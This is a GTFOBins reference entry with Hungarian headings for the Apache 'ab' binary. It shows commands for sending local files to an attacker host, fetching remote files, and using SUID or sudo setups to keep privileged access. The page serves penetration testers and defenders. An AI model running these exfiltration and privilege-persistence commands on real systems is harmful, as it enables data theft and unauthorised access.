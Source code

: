 # GTFOBins
Ezek segítségével lehetségessé válik a lokális biztonsági szabályok megkerülése hibásan konfigurált rendszerek esetében

## Lista
 * [ab](#ab)
 
### ab
#### Fájl feltöltése
It can exfiltrate files on the network.
Upload local file via HTTP POST request.
```http
URL=http://attacker.com/
LFILE=file_to_send
ab -p $LFILE $URL
```
#### Fájl letöltése
It can download remote files.
Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.
```http
URL=http://attacker.com/file_to_download
ab -v2 $URL
```
#### SUID
If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Upload local file via HTTP POST request.
```sh
sudo install -m =xs $(which ab) .

URL=http://attacker.com/
LFILE=file_to_send
./ab -p $LFILE $URL
```
#### Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
Upload local file via HTTP POST request.
```http
URL=http://attacker.com/
LFILE=file_to_send
sudo ab -p $LFILE $URL
```
